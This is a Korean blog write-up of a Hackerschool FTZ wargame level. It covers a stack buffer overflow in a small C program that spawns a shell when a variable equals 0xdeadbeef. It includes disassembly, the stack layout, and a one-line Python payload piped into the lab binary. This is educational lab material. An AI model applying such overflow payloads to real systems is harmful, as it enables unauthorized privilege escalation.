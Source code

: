 ```yaml
---
date: '2022-10-04'
before : '2022-10-03'
after : '2022-10-05'
title: '시스템 해킹(10) : 해커스쿨 FTZ 레벨 12'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또다시 BOF 문제이다. 이번에는 입력 크기에 제한을 받았지만, 배열의 길이가 20인것에 반해 입력은 45까지(...) 받는다.


그리고 저번 문제와 다르게, check값만 일치한다면 shell을 실행해준다.


### 1. Level 14

바로 cat hint로 소스코드를 확인해보자.
```
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

말했던 것처럼, 오버플로우가 충분히 일어날 수 있는 구조이다. 한 번 코드를 복사/컴파일 해서 gdb로 disassemble 해보자.

```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d0
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56] // char buf[20]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   cmp    DWORD PTR [ebp-16] // if, 12-16 = int check
0x080483e6 <main+46>:   jne    0x804840d <main+85>
0x080483e8 <main+48>:   sub    esp,0x8
0x080483eb <main+51>:   push   0xc17
0x080483f0 <main+56>:   push   0xc17
0x080483f5 <main+61>:   call   0x80482f8 <setreuid>
0x080483fa <main+66>:   add    esp,0x10
0x080483fd <main+69>:   sub    esp,0xc
0x08048400 <main+72>:   push   0x80484bc
```

생각보다 어렵지 않은 구조다. 재구성해보면 :

```
char[20] // 56-36
dummy[20] // 36-16
int check // 16-12
```
따라서 40바이트의 \x90과 4바이트의 int의 값을 맞춰주면 된다. 1 바이트나 여유가 남는다(!)

```
@BufferOverflow :
(python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

문제가 조금씩 어려워지고 있다. 얼른 Level20까지 끝냈으면...

---
## Source

- 해커스쿨 FTZ
- Me!
